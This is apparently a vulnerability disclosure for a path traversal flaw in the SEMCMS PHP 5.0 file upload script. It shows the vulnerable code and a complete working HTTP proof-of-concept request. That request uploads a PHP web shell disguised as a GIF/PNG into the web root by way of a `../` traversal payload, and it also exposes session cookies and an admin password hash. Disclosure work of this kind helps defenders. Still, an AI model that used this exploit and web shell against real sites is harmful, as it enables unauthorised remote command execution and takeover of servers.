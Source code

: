 #### 1. Path Traversal Vulnerability (CWE-22)
downland_url:https://www.sem-cms.com/TradeCmsdown/php/semcms_php_5.0.zip

**Vulnerability Description:**
The code directly receives user-controlled path parameters through `$Imageurl = $_POST["imageurl"]` without normalization. An attacker can craft a payload like `imageurl=../Images/default/../../` to bypass the preset storage path restrictions and upload files to any directory.

**Key Code Analysis:**

```php
$Imageurl = $_POST["imageurl"];
move_uploaded_file($_FILES["file"]["tmp_name"], $Imageurl.$newname);
```

- **Vulnerability Point:** Direct concatenation of user-controllable `$Imageurl` with the generated filename, without path normalization.
- **Attack Effect:** Using `../../` to achieve directory traversal, such as uploading to the website root directory (the final storage path for the file in this example is `/var/www/html/`).

```
POST /1cj5Mn_Admin/SEMCMS_Upfile.php HTTP/1.1
Host: 127.0.0.1:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=----geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Length: 836
Origin: http://127.0.0.1:8000
Connection: keep-alive
Referer: http://127.0.0.1:8000/1cj5Mn_Admin/SEMCMS_Upload.php?Imageurl=../Images/default/&filed=down_file&filedname=form
Cookie: csrftoken=DC1ie5F1GBasnO3BOxBk7lQ26Ee82lQM; _ga_R1FN4KJKJH=GS1.1.1731064454.3.1.1731065715.0.0.0; _ga=GA1.1.1573617850.1730626906; 4411def9d576984c8d78253236b2a62f__typecho_uid=1; 4411def9d576984c8d78253236b2a62f__typecho_authCode=%24T%24B0Y0sei2u2a444450e82362ddf26030b5474ad3c6; PHPSESSID=va4k07vvgftbnhaomq31s87np1; csrf_cookie_name=d9764bb0c2711f0ce2444be389abeb68; xunruicms_527064877b6d641aa8c19449a87beacc=tmuo9h6ga29i2pel1evd7qh8fs9cpbvg; 527064877b6d641aa8c19449a87beacc_member_uid=1; 527064877b6d641aa8c19449a87beacc_member_cookie=2da9437e47038d33a019eac9432349d7; __tins__4329483=%7B%22sid%22%3A%201739256022241%2C%20%22vd%22%3A%202%2C%20%22expires%22%3A%201739257829169%7D; __51cke__=; __51laig__=2; scusername=%E6%80%BB%E8%B4%A6%E5%8F%B7; scuseradmin=Admin; scuserpass=c4ca4238a0b923820dcc509a6f75849b
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="wname"


------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="file"; filename="2.zip"
Content-Type: image/png

GIF89a;
<?php system($_GET['cmd']); ?>
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="imageurl"

../Images/default/../../../
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filed"

down_file
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="filedname"

form
------geckoformboundary7885279eed7384fc280d6248a79275ff
Content-Disposition: form-data; name="submit"

Submit
------geckoformboundary7885279eed7384fc280d6248a79275ff--

```

Payload:

```
../Images/default/../../../
```

![image](https://github.com/user-attachments/assets/bc05e238-e7cd-4488-9a59-3edba79e7f41)


Uploaded to the website root directory.

![image](https://github.com/user-attachments/assets/05d61fec-e921-43c9-ac34-a1bed4055b60)
